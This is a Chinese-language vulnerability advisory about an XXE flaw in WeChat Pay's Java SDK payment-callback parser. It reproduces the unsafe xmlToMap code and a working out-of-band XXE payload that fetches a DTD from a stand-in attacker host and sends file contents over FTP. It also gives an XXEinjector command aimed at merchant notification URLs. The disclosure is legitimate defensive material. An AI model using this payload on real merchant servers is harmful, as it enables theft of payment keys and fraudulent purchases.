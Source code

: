 # 漏洞预警 \| 微信支付SDK存在XXE漏洞

漏洞信息来源：  
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)

> **受影响版本：**  
> JAVA SDK，WxPayAPI\_JAVA\_v3，建议使用了该版本的公司**进行异常支付排查**。

微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何信息。一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）

### 漏洞详情 <a id="toc-0"></a>

The SDK in this page: [https://pay.weixin.qq.com/wiki/doc/api/jsapi.php](https://pay.weixin.qq.com/wiki/doc/api/jsapi.php)

```text
chapter=11_1
   Just in java vision:
https://pay.weixin.qq.com/wiki/doc/api/download/WxPayAPI_JAVA_v3.zip
    or
https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view(
Backup ）


   README.md in  WxPayApi_JAVA_v3.zip,it show more details:

   notify code example:
    [
        String notifyData = "....";
        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);
//conver to map
        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
//do business logic
        }
        else {
         }

     ]
    WXPayUtil source code
   [

  public static Map<String, String> xmlToMap(String strXML) throws
Exception {
    try {
            Map<String, String> data = new HashMap<String, String>();
            /*** not disabled xxe *****/
            //start parse

            DocumentBuilderFactory documentBuilderFactory =
DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder =
documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes(
"UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);

           //end parse


            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx <nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert tomap. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }
    }

]
```

### 利用细节 <a id="toc-1"></a>

```text
Post merchant notification url with  payload:
```

```text
<?xml version="1.0" encoding="utf-8"?>
<
!DOCTYPE root [  
<!ENTITY % attack SYSTEM "file:///etc/">
<!ENTITY % xxe SYSTEM "http://attacker:8080/shell/data.dtd";>
  %xxe;
]>

data.dtd:

<
!ENTITY % shell "
<
!ENTITY % upload SYSTEM 'ftp://attack:33/%attack;
'>">

%shell;
%upload;

or use  XXEinjector tool  【https://github.com/enjoiz/XXEinjector】

ruby XXEinjector.rb --host=attacker --path=/etc   --file=req.txt --ssl

req.txt :
POST merchant_notification_url HTTP/1.1
Host:  merchant_notification_url_host
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 57
Content-Type: application/x-www-form-urlencoded

XXEINJECT


In order to prove this, I got 2 chinese famous company:
   a、momo: Well-known chat tools like WeChat
   b、vivo ：China's famous mobile phone,that also famous in my country
```

## [微信支付SDK漏洞排查修复札记](https://mp.weixin.qq.com/s/IMlqJjltFiPlCjj7P_65Ww) <a id="activity-name"></a>

